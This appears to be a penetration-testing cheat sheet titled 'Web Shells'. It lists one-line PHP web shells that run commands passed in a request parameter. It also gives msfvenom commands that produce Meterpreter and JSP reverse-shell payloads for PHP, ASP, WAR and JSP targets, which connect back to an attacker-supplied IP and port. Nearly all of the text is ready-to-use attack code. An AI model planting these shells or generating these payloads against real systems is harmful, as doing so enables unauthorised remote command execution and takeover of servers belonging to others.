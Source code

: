 # Web Shells

```php
<?php system($_REQUEST['cmd']); ?>
xxx.php?cmd=whoami
```

```php
<?php echo shell_exec($_REQUEST["cmd"]); ?>
```

## Meterpreter Reverse Shell
```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=[IP] LPORT=[PORT] -f raw > [NAME].php; cat [NAME].php | pbcopy && echo '<?php ' | tr -d '\n' > [NAME].php && pbpaste >> [NAME].php
```

## PHP
```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=[IP] LPORT=[PORT] -f raw > [NAME].php
```

## ASP/ASPX
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[IP] LPORT=[PORT] -f asp > [NAME].asp
```

## WAR
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=[IP] LPORT=[PORT] -f war > [NAME].war
```

## JSP
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=[IP] LPORT=[PORT] -f raw > [NAME].jsp
```
